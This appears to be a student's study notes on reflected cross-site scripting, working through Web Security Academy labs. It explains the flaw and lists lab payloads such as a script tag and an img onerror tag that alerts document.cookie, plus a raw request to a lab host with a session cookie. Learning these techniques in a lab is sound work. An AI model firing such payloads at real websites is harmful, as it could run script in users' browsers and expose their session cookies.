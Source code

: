 ####  What is reflected cross-site scripting?
Reflected XXS arises when an application recieves data in an HTTP request and includes that data within the immediate repsonse   
in an unsafe way.  

Suppose a website has a search fucntion which recieved the user suppiled search term in a url parameter 
````https://insecure-website.com/search?term=gift````

The application echoes the supplied search term in the response to this URL 
><p>You searched for: gift</p>

Assuming the application doesn't perform any other processing of the data, attackers can construct an attack like this. 
````https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>````

***
#### Lab: Reflected XSS into HTML context with nothing encoded
This lab contains a stored cross-site scripting vulnerability in the comment functionality. To solve this lab, submit a comment that calls the alert function when the blog post is viewed.
````web-security-academy.net/?search=<script>alert(1)</script>````

***
#### Lab: Reflected XSS into HTML context with most tags and attributes blocked
This lab contains a reflected cross-site scripting vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors. To solve the lab, perform a cross-site scripting attack that bypasses the WAF and alerts document.cookie. 

Observe this payload get blocked 
````Inject a standard XSS payload such as: <img src=1 onerror=alert(document.cookie)>````

Get request to trouble shoot to see which tags are blocked 

```GET /?search=%3Cimg+src%3D1+onerror%3Dalert%28document.cookie%29%3E HTTP/1.1
Host: ac5f1f4e1edda1b5810d0d0f00e60028.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ac5f1f4e1edda1b5810d0d0f00e60028.web-security-academy.net/
Cookie: session=FkSFLXR0PyX1JqWdIIMiUQmt4O97Yg6M
Connection: close
Upgrade-Insecure-Requests: 1
````



